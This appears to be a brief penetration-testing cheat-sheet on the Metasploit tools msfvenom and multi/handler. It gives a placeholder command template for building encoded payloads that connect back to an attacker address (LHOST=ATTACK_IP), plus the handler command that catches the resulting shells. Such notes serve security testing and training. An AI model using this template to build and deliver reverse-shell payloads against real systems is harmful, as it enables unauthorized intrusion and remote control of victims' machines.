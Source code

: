 # MSFVENOM PAYLOAD

### Create payloads in one liner:

### msfvenom -p /payload/name LHOST=ATTACK_IP LPORT=PORT -f FILE_FORMAT -e ENCODER/ENCRYPTION -o OUTPUTFILE

## HANDLER

### use exploit/multi/handler

### Used to catch MSFVenom payloads

### Supports ALL shells
